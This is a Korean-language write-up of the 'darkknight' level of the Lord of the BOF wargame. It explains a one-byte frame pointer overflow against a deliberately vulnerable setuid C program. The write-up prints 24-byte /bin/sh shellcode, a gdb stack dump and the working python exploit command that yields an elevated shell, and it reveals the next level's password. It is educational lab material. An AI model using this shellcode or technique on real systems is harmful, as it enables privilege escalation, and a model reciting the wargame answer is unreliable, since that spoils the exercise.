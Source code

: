 ```yaml
---
title: "[LOB]Level12. darkknight"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : sfp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.



```sh
(gdb) x/32x $ebp-40
0xbffffaf0:	0xbffffb18	0x4000a970	0x400f855b	0x08049530
0xbffffb00:	0x4000ae60	0xbffffb64	0xbffffb18	0x0804842b
0xbffffb10:	0x0804951c	0x08049530	0xbffffb38	0x400309cb
0xbffffb20:	0x00000001	0xbffffb64	0xbffffb6c	0x40013868
0xbffffb30:	0x00000001	0x08048390	0x00000000	0x080483b1
0xbffffb40:	0x0804846c	0x00000001	0xbffffb64	0x080482e4
0xbffffb50:	0x080484dc	0x4000ae60	0xbffffb5c	0x40013e90
0xbffffb60:	0x00000001	0xbffffc61	0x00000000	0xbffffc7a
```



```sh
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*16+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xf0"'`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����M�������	@
bash$ my-pass
euid = 512
new attacker
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

sfp의 끝주소를 '\xf0'으로 변경시키고, NOP와 쉘코드를 넣어준다.

> 만약 ebp-40에 바로 쉘코드를 넣었다면 **\xf0 - 4 한 값**을 넣어야 한다. 



##### **darkknight / new attacker**

